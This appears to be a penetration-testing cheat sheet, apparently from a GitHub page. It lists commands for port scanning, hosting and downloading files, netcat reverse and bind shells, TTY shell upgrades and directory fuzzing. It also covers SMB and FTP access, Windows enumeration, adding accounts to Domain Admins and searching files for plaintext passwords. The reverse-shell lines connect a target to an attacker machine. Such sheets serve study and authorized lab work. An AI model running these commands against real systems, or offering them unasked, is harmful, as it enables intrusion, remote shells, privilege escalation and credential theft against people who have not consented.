 # NMAP
~~~
nmap -T4 -p- -A <target ip>
nmap -T4 -p- -sV <target ip>
~~~
# Python Webserver
~~~
python3 -m http.server <port>
~~~
# Download Files (from you web server)
~~~
**Windows**
certutil.exe -urlcache -f http://<link to file>:<port> <name file>

**Linux**
wget http://<link to file>
curl http://<link to file>
~~~

# Netcat
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
~~~
## Reverse Shell
### Attacker Listener
nc -nlvp 4444

### Target Connecting
nc 192.168.1.2 4444 -e /bin/sh

## Bind Shell
### Attacker Connecting
nc 192.168.1.2 4444

### Target Listener
nc -nvlp 4444 -e /bin/sh
~~~

# TTY Shell
~~~
## Using python
python -c 'import pty; pty.spawn("/bin/sh")'
python -c 'import pty; pty.spawn("/bin/bash")'

## Echo
echo 'os.system('/bin/bash')'

## sh
/bin/sh -i

## bash
/bin/bash -i

## Perl
perl -e 'exec "/bin/sh";'

## From within VI
:!bash
~~~
# Linux System Info
~~~
uname -a
~~~
# Linux Privilege Escalation Check
~~~
sudo -l
~~~
# OpenVPN
~~~
sudo openvpn <file>.vpn
~~~
# ffuf
~~~
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://<ip>/FUZZ
~~~
# SSH
~~~
#Specify specific file to authenticate
ssh -i <privatekeyfile> <username>@<ipaddress>
ssh -i id_rsa john@10.10.6.100
~~~
# Net use/user/group/share/..
~~~
# change password
net use <username> <new password>
net use <username> <new password> /domain

# Check all users that we can find
net user

# connect user
net use \<fqdn | ip address>\ipc$ /user:<username>
net use \<fqdn | ip address>\ipc$ /user:<domain>\<username>

# add user to local group
net localgroup <groupname> <username> /add

# add user to a domain group
net group "Domain Admins" <username> /add /domain

# add user to a domain
net user <new username> /add /domain


~~~
# smbmap
~~~
smbmap -H <targetip> -u 'anonymous'
smbmap -H <targetip> -u 'guest'
~~~
# SMB
![afbeelding](https://github.com/user-attachments/assets/f0f99542-4082-4e29-8b88-f752714038f5)
https://www.computerhope.com/unix/smbclien.htm 
~~~
* You can make use of // or \\\\...\\
* Don't forget sudo if you want to download to your own folder
## List SMB shares
smbclient -L \\\\<target ip>\\

## Connect to SMB share
smbclient \\\\<target ip>\\<share>
smbclient \\\\<target ip>\\<share> -U <user>
smbclient \\\\<target ip>\\<share> -U <user>%<password>
smbclient \\\\<target ip>\\<share> -U <user> -p <port>

smbclient "//<target ip>/<share with space in name>" -U "<domain>\\<username>"
smbclient "\\\\<target ip>\\<share with space in name>" -U "<domain>\\<username>"

## Commands
cd
dir
put
more
get <remote-file> <local-file name>
exit
~~~
# FTP
~~~
Command/Option | Description
ftp ftp.example.com	 |Connect to an FTP server
open ftp.example.com	| Connect to an FTP server
user username password	| Log in with username and password
ls	| List files in the current directory
cd /path/to/dir	| Change remote directory
get file.txt	| Download a file from the server
put file.txt	| Upload a file to the server
mget *.txt	| Download multiple files
mput *.txt	| Upload multiple files
delete file.txt	| Delete a file on the server
mkdir newdir	| Create a new directory on the server
rmdir olddir	| Remove a directory on the server
bye	| Close the connection and exit
~~~

# Windows (System-User-Network-Services) Manual Enumeration
~~~
# got to shell
shell

# hostname
hostname

# user id - privileges - groups
getuid

whoami
whoami /priv
whoami /groups

net user
net user <username> # information about user
net localgroup
net localgroup <group> # example: net localgroup administrators

# system info
systeminfo
systeminfo | findstr /B /C:"OS Name" /C:"OS version" /C:"System Type"

# checking updates
wmic qfe
wmic gfe Caption,Description,HotFixID,InstalledOn

# Disk Info
wmic logicaldisk
wmic logicaldisk get caption,description,providername

# Network
ipconfig /all
arp -a
route print
netstat -ano

# AV Enumeration
sc query windefend
sc queryex type= service

# Firewall
netsh advfirewall firewall dump
netsh firewall show state
netsh firewall show config

# find password in plain text files
findstr /si password *.txt *.ini *.config
~~~

# General Windows
~~~
where /R <path c:\Windows> <search bash.exe>
type <file>
calcs
~~~



